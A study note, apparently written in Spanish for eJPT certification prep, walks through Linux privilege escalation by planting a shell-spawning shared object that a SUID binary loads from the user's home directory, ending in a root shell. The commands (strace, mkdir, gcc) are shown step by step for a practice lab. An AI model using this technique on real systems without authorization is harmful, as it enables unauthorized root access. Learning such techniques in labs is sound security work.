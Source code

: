 - El ejecutable /usr/local/bin/suid-so SUID es vulnerable a la inyección de objetos - compartidos

- First, execute the file and note that currently it displays a progress bar before exiting:

```
/usr/local/bin/suid-so
```

- Ejecute strace en el archivo y busque en la salida llamadas de apertura/acceso y errores de "no existe tal archivo":

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
Tenga en cuenta que el ejecutable intenta cargar el objeto compartido /home/user/.config/libcalc.so dentro de nuestro directorio de inicio, pero no lo puede encontrar. 

- Cree el directorio .config para el archivo libcalc.so:

```
mkdir /home/user/.config
```

- Puede encontrar un ejemplo de código objeto compartido en /home/user/tools/suid/libcalc.c. Simplemente genera un shell Bash. Compile el código en un objeto compartido en la ubicación donde lo buscaba el ejecutable suid-so:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

- Ejecute el ejecutable suid-so nuevamente y observe que esta vez, en lugar de una barra de progreso, obtenemos un shell raíz.

```
/usr/local/bin/suid-so
```



enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables  Known - Exploits]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Environment Variables]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Abusing Shell Features (1)]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Abusing Shell Features (2)]]